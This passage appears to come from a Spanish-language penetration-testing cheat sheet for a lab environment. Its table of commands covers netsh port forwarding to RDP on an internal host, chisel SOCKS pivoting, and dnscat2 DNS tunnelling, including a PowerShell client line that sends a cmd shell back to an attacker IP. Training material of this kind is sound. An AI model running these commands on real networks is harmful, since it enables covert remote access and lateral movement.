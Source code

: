 | `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25`                                                                                 | Comando basado en Windows que utiliza `netsh.exe` para configurar una regla portproxy llamada `v4tov4` que escucha en el puerto 8080 y reenvía conexiones al destino 172.16.5.25 en el puerto 3389.                                                                                                   |
| `netsh.exe interface portproxy show v4tov4`                                                                                                                                                                        | Comando basado en Windows utilizado para ver las configuraciones de una regla de portproxy llamada v4tov4.                                                                                                                                                                                            |
| `git clone https://github.com/iagox86/dnscat2.git`                                                                                                                                                                 | Clona el `dnscat2` Repositorio GitHub del proyecto.                                                                                                                                                                                                                                                   |
| `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`                                                                                                                        | Se utiliza para iniciar el servidor dnscat2.rb ejecutándose en la dirección IP especificada, puerto ( `53`) y usando el dominio `inlanefreight.local` con la opción sin caché habilitada.                                                                                                             |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git`                                                                                                                                                  | Clona el repositorio Github del proyecto dnscat2-powershell.                                                                                                                                                                                                                                          |
| `Import-Module dnscat2.ps1`                                                                                                                                                                                        | Comando de PowerShell utilizado para importar la herramienta dnscat2.ps1.                                                                                                                                                                                                                             |
| `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd`                                                                                     | Comando de PowerShell utilizado para conectarse a un servidor dnscat2 específico mediante una dirección IP, un nombre de dominio y un secreto previamente compartido. El cliente devolverá una conexión de shell al servidor ( `-Exec cmd`).                                                          |
| `dnscat2> ?`                                                                                                                                                                                                       | Se utiliza para enumerar las opciones de dnscat2.                                                                                                                                                                                                                                                     |
| `dnscat2> window -i 1`                                                                                                                                                                                             | Se utiliza para interactuar con una sesión dnscat2 establecida.                                                                                                                                                                                                                                       |
| `./chisel server -v -p 1234 --socks5`                                                                                                                                                                              | Se utiliza para iniciar un servidor chisel en modo detallado escuchando en el puerto `1234` usando SOCKS versión 5.                                                                                                                                                                                   |
| `./chisel client -v 10.129.202.64:1234 socks`                                                                                                                                                                      | Se utiliza para conectarse a un servidor chisel en la dirección IP y el puerto especificados mediante calcetines.                                                                                                                                                                                     |